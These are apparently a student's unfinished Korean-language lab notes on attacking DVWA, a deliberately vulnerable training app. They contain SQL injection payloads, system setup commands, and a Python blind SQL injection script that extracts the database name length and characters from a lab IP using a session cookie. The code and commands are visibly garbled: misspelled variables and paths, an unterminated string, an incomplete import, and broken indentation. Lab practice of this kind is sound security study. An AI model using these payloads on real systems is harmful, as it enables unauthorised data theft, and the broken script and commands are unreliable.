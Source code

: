 # 오늘의 코드들....쓰다 말았음..

    DVWA 에 
    select first_name, list_name from users where user_id = '$id';
    select first_name, list_name from users where user_id = '1' and 1=2#';
    true and false = false
    select first_name, list_name from users where user_id = '1' or 1=2#';
    true or false = true
    select first_name, list_name from users where user_id
    

패키지 설치
    
    blind_sqli.py
    sudo apt install python3-pip
    pip3 install beautifulsoup4
    
    sudo vi /etc//recoly.conf
    pgdn
    i 누름
    nameserver 127.0.0.53 -> namesrver 8.8.8.8 변경
    esc 누름
    : 누름
    wq! 누름
    sudo apt update
    sudo apt autoclean
    sudo apt updete
    
    안된다면
    sudo rm /uer lib/python3.12/EXTERNAKKY-MANAGE

    import requests
    from bs4 import BeautifulSoup
    from urllib
    import string
    
    TARGET_URL = "http://10.104.147.200:9980/vulnerabilities/sqli_blind/
    URI1 = "?id="
    URI2 = "?id={}&Submit=Submit#"
    cookies = "PHPSESSID=qv7vnnbi34na8mv5cp2sfa50m04; security=low"
    response = requests.get(TARGET_URL, headers={"Cookie":cookies})
    
    # print(response.status_code)

    
    for database_length in range(10):
      query = "1" AND LENGTH(DATABASE()) = " + str(database_length)+urllib.parse.quote("#")
      print(query)
      request_url = TARGET_URL+URI1+query+URI2
      query_response = requests.get(request_url,headers={"Cookie":cookies})
      #print(query_response.text)

    soup = BeautifulSoup(query_response.content, 'html.parser')
    check_value = soup.find("pre")
    if "User ID exists in the database." in check_value:
    print("Database length :" str(database_langth))
    db_length=database_length

    database_name = ''

    for c in string.ascii_lowercase:
      duery = "1" AND SUBSTRING(DATABASE(), 1, 1) = " + c + urllib.parse.quote("#")
      request_url = TARGET_URL+URI1+query+URI2
      query_response = requests.get(request_url,headers={"Cookie":cookies})
      soup = BeautifulSoup(query_response.content, 'html.parser')
      check_value = soup.find("pre")
      # print(check_value.text)

      if "User ID exists in the database." in check_value:
        print(c) 
       database_name += c
    print("Database name : "+ database_name)

    "1' AND(SELECT COUNT(*) FROM information_schema.tables WHERE table_type='base ...)


그리고 자바 스크립트 어택이라는 화면에서 

![image](https://github.com/user-attachments/assets/a0fd1bd9-ecd0-47c6-9f45-fdb4fcad4c77)



